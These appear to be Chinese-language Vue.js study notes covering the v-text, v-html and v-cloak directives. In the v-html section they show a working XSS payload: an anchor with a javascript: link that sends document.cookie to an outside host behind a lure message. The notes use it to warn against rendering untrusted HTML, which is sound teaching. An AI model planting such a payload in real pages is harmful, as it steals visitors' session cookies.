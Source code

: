 ### v-text、v-html

```vue
<div>你好，{{name}}</div>			<!-- 你好，li -->
<div v-text="name">你好，</div>	<!-- li -->

...
name='li'
```

```vue
<div>{{str}}</div>				<!-- <h3> 你好啊！</h3> -->
<div v-html="str">你好，</div>		<!-- 你好啊！ -->
<div v-html="str2"></div>		<!-- 跳转了，并带着cookie -->
...
str='<h3> 你好啊！</h3>'
<!-- 安全风险 -->
str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
```

```
v-html指令：
	1.作用：向指定节点中渲染包含html结构的内容。
	2.与插值语法的区别：
				(1).v-html会替换掉节点中所有的内容，{{xx}}则不会。
				(2).v-html可以识别html结构。
	3.严重注意：v-html有安全性问题！！！！
				(1).在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击。
				(2).一定要在可信的内容上使用v-html，永不要用在用户提交的内容上！
```

### v-cloak

```
v-cloak指令（没有值）：
	1.本质是一个特殊属性，Vue实例创建完毕并接管容器后，会删掉v-cloak属性。
	2.使用css配合v-cloak可以解决网速慢时页面展示出{{xxx}}的问题。
```

```vue
<style>
	[v-cloak]{
		display:none;
	}
</style>
<div id="root">
	<h2 v-cloak>{{name}}</h2>
</div>
<script type="text/javascript" src="http://localhost:8080/resource/5s/vue.js"></script>
...
```

### v-once
